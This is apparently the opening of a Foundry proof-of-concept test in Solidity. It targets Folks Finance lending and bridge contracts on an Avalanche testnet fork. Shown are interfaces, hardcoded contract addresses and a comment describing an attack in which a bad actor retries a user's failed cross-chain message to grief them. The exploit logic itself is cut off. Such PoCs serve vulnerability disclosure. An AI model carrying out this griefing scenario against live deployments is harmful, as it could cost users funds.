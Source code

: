 ```solidity
    function withdraw(MessageParams memory params, bytes32 accountId, bytes32 loanId, uint8 poolId, uint16 chainId, uint256 amount, bool isFAmount) external payable;
}

interface ILoanManager {
    struct UserLoanCollateral {
        uint256 balance; 
        uint256 rewardIndex;
    }

    struct UserLoanBorrow {
        uint256 amount; 
        uint256 balance; 
        uint256 lastInterestIndex;
        uint256 stableInterestRate; 
        uint256 lastStableUpdateTimestamp; 
        uint256 rewardIndex;
    }

    function getUserLoan(bytes32 loanId) external view returns (
        bytes32,
        uint16,
        uint8[] memory,
        uint8[] memory,
        UserLoanCollateral[] memory,
        UserLoanBorrow[] memory
    );
}

interface IBridgeRouter {
    function retryMessage(uint16 adapterId, bytes32 messageId) external payable;
}

contract FolksPOC_GriefUserByFailedTransaction is Test {
    uint256 avaxTestnetFork;

    string AVAX_FUJI_RPC_URL = vm.envString("AVAX_FUJI_RPC_URL");

    address constant USDC = 0x5425890298aed601595a70AB815c96711a31Bc65;

    address constant HUB_ADAPTER = 0xf472ab58969709De9FfEFaeFFd24F9e90cf8DbF9;

    address constant HUB = 0xaE4C62510F4d930a5C8796dbfB8C4Bc7b9B62140;

    address constant SPOKE_COMMON = 0x6628cE08b54e9C8358bE94f716D93AdDcca45b00;

    address constant SPOKE_CIRCLE_TOKEN = 0x89df7db4af48Ec7A84DE09F755ade9AF1940420b;

    address BRIDGE_ROUTER = 0xa9491a1f4f058832e5742b76eE3f1F1fD7bb6837;

    event MessageFailed(uint16 adapterId, bytes32 indexed messageId, bytes reason);

    function setUp() public {
        avaxTestnetFork = vm.createFork(AVAX_FUJI_RPC_URL);

        vm.selectFork(avaxTestnetFork);
    }

    function testGriefUserWithFailedMessages() public {
        // Note: test below done to demonstrate scenario in which a user has a forgotten failed transaction
        // that is retried again in the future by a bad actor and as a result the user is griefed

```